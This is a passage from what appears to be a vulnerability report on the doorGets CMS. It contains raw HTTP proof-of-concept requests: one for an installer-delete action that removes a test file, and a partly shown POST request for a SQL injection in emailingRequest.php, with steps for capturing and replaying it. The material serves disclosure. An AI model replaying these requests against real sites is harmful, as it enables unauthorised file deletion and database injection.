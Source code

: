 ------WebKitFormBoundaryjFIyYDadLyzKcDuF
Content-Disposition: form-data; name="installer_delete_token"

175015ca1b8264161f4.09576079
------WebKitFormBoundaryjFIyYDadLyzKcDuF
Content-Disposition: form-data; name="installer_delete_delete"

1
------WebKitFormBoundaryjFIyYDadLyzKcDuF
Content-Disposition: form-data; name="installer_delete_submit"

Remove
------WebKitFormBoundaryjFIyYDadLyzKcDuF--
```
After the request, you can delete /data/1234.txt(test file)


**[20]**

In \doorgets\app\requests\user\emailingRequest.php:

![77.png](./img/77.png)

Line 119 directly inserts the key value in the post data into the database query, resulting in injection.

After the administrator logs in, visit ```http://domain.com/dg-user/?controller=emailing```
Click below:

![78.png](./img/78.png)

After filling in the data, capture the packet, replace the obtained cookie and emerging_add_token with the following request, and then request:
```
POST /dg-user/?controller=emailing&action=add HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 1017
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8003
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaypaF2drDyZAvej4
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8003/dg-user/?controller=emailing&action=add
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6laloptc1mdug324doe9j3g1n6

------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_token"
